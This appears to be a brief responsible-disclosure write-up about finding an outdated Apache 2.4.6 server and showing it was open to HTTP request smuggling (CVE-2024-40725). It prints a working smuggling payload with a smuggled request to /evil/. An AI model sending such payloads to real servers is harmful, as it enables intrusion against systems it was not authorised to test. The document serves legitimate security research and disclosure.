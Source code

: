 # Outdated Apache

## Discovery

I was enumerating all the subdomains of a target, and noticed that one domain returned nothing but 403s. However, it revealed its version:

![](../../../.gitbook/assets/outdated-apache-image.png)

## Exploitation

Apache 2.4.6 is severely outdated, and has a ton of vulnerabilities for DoS and HTTP Request Smuggling. I was unable to get the CVE for RCE working, but figured that using any CVE would suffice in demonstrating that it was vulnerable.

I decided to go with CVE-2024-40725, a HTTP Request Smuggling attack for Apache HTTP Server versions 2.4.0 to 2.4.61. This was one of the **least disruptive** attacks I could use on this.

I used this payload:

```http
GET / HTTP/1.1
Host: vulnerable-host.com
Content-Length: 0
Transfer-Encoding: chunked

0


GET /evil/ HTTP/1.1
Host: vulnerable-host.com
User-Agent: smuggle-test
Location: evil.com
```

The response confirmed that it was vulnerable since it returned 2 responses:

![](../../../.gitbook/assets/outdated-apache-image-1.png)

Afterwards, I notified the relevant parties and this vulnerability was acknowledged!
